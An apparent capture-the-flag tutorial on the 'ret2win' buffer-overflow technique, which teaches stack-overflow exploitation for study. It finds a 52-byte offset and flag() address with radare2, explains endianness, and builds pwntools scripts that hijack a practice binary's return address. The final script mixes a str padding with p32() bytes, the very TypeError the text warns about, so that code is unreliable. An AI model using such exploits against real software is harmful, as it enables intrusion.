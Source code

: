```yaml
---
description: 'One of the most basic binexp challenges of all, the ret2win'
---
```


# ret2win

A **ret2win** is simply a binary where there is a `win()` function \(or equivalent\); once you successfully redirect execution there, you complete the challenge.

To carry this out, we have to leverage what we learnt in the **introduction**, but in a _predictable manner_ - we have to overwrite EIP, but to a specific value of our choice.

To do this, what do we need to know? Well, a couple things:

* The padding _until_ we begin to overwrite the return pointer \(EIP\)
* What value we want to overwrite EIP to

{% hint style="warning" %}
When I say "overwrite EIP", I usually mean overwrite the saved return pointer that gets popped into EIP. The EIP register is not located on the stack, so it is not overwritten directly.
{% endhint %}

{% file src="../../.gitbook/assets/ret2win.zip" caption="ret2win" %}

### Finding the Padding

This can be found using simple trial and error; if we send a variable numbers of characters, we can use the `Segmentation Fault` message, in combination with radare2, to tell when we overwrote EIP. There is a better way to do it than simple brute force \(we'll cover this in the next post\), but it'll do for now.

{% hint style="info" %}
You may get a segmentation fault for reasons other than overwriting EIP; use a debugger to make sure the padding is correct.
{% endhint %}

We get an offset of 52 bytes.

### Finding the Address

Now we need to find the address of the `flag()` function in the binary. This is simple.

```text
$ r2 -d -A vuln
$ afl
[...]
0x080491c3    1 43           sym.flag
[...]
```

{% hint style="info" %}
`afl` stands for **A**nalyse **F**unctions **L**ist
{% endhint %}

The `flag()` function is at `0x080491c3`.

### Using the Information

The final piece of the puzzle is to work out how we can send the address we want. If you think back to the introduction, the `A`s that we sent became `0x41` - which is the ASCII code of `A`. So the solution is simple - let's just find the characters with ascii codes `0x08`, `0x04`, `0x91` and `0xc3`.

This is a lot simpler than you might think, because we can specify them in python as hex:

```python
address = '\x08\x04\x91\xc3'
```

And that makes it much easier.

### Putting it Together

Now we know the padding and the value, let's exploit the binary! We can use [`pwntools`](https://github.com/Gallopsled/pwntools) to interface with the binary \(check out the [pwntools posts](../../other/pwntools/) for a more in-depth look\).

```python
from pwn import *        # This is how we import pwntools

p = process('./vuln')    # We're starting a new process

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

p.clean()                # Receive all the text

p.sendline(payload)

log.info(p.clean())      # Output the "Exploited!" string to know we succeeded
```

If you run this, there is one small problem: it won't work. Why? Let's check with a debugger. We'll put in a `pause()` to give us time to attach `radare2` onto the process.

```python
from pwn import *

p = process('./vuln')

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

log.info(p.clean())

pause()        # add this in

p.sendline(payload)

log.info(p.clean())
```

Now let's run the script with `python3 exploit.py` and then open up a new terminal window.

```text
r2 -d -A $(pidof vuln)
```

By providing the PID of the process, radare2 hooks onto it. Let's break at the return of `unsafe()` and read the value of the return pointer.

```text
[0x08049172]> db 0x080491aa
[0x08049172]> dc

<< press any button on the exploit terminal window >>

hit breakpoint at: 80491aa
[0x080491aa]> pxw @ esp
0xffdb0f7c  0xc3910408 [...]
[...]
```

`0xc3910408` - look familiar? It's the address we were trying to send over, except the bytes have been reversed, and the reason for this reversal is [endianness](https://en.wikipedia.org/wiki/Endianness). Big-endian systems store the **most significant byte** \(the byte with the largest value\) at the smallest memory address, and this is how we sent them. Little-endian does the opposite \([for a reason](https://softwareengineering.stackexchange.com/questions/95556/what-is-the-advantage-of-little-endian-format)\), and most binaries you will come across are little-endian. As far as we're concerned, the byte are stored in _reverse order_ in little-endian executables.

### Finding the Endianness

`radare2` comes with a nice tool called `rabin2` for binary analysis:

```text
$ rabin2 -I vuln
[...]
endian   little
[...]
```

So our binary is **little-endian**.

### Accounting for Endianness

The fix is simple - reverse the address \(you can also remove the `pause()`\)

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

If you run this now, it will work:

```text
$ python3 tutorial.py 
[+] Starting local process './vuln': pid 2290
[*] Overflow me
[*] Exploited!!!!!
```

And wham, you've called the `flag()` function! Congrats!

### Pwntools and Endianness

Unsurprisingly, you're not the first person to have thought "could they possibly make endianness simpler" - luckily, pwntools has a built-in `p32()` function ready for use!

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

becomes

```python
payload += p32(0x080491c3)
```

Much simpler, right?

The only caveat is that it returns `bytes` rather than a string, so you have to make the padding a byte string:

```python
payload = b'A' * 52        # Notice the "b"
```

Otherwise you will get a

```text
TypeError: can only concatenate str (not "bytes") to str
```

### Final Exploit

```python
from pwn import *            # This is how we import pwntools

p = process('./vuln')        # We're starting a new process

payload = 'A' * 52
payload += p32(0x080491c3)   # Use pwntools to pack it

log.info(p.clean())          # Receive all the text
p.sendline(payload)

log.info(p.clean())          # Output the "Exploited!" string to know we succeeded
```

